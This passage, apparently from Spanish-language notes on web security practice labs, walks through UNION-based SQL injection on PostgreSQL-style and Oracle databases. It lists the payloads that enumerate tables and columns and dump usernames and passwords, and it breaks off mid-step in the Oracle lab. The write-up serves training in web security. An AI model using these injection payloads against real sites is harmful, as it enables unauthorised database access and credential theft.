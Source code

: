 Y nos aparecera lo siguiente...

```
users_veujmf
```

Por lo que elegimos esa misma...

```mysql
' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users_veujmf'-- -
```

Y nos aparecera lo siguiente...

```
|email|
|password_noopnn|
|username_fwnbqa|
```

En este caso vamos hacer los dos a la vez concatenando comandos para elegir el de `password_noopnn` y el de `username_fwnbqa`...

```mysql
' union select NULL,concat(password_noopnn,':',username_fwnbqa) from users_veujmf-- -
```

Y estaremos viendo entre los usuarios y contraseñas la de `admin`, por lo que nos registramos y ya lo habriamos hecho...

```
|do57nju65zautaj4ps8r:carlos|
|jervglfw9ptwhzpsng8c:administrator|
|53pu6vfp0qtsdig3ccrt:wiener|
```

### Lab: SQL injection attack, listing the database contents on Oracle

URL = https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet

En este caso tenemos que logearnos como `administradores` en esta pagina web...

Al ser `Oracle` ya cambia la cosa en algunos aspectos a la hora de poder ver una base de datos o una tabla...

```mysql
' union select NULL,NULL from dual-- -
```

Para saber que es a `Oracle` a los que nos estamos enfrentando, por lo que ahora vamos a pasar a ver las bases de datos que se encuentran en esta pagina...

```mysql
' union select NULL,table_name from all_tables-- -
```

Ahi mostraria todas las tablas que hay, pero si solo queremos filtrar por las tablas que sean con privilegios altos, hariamos lo siguiente...
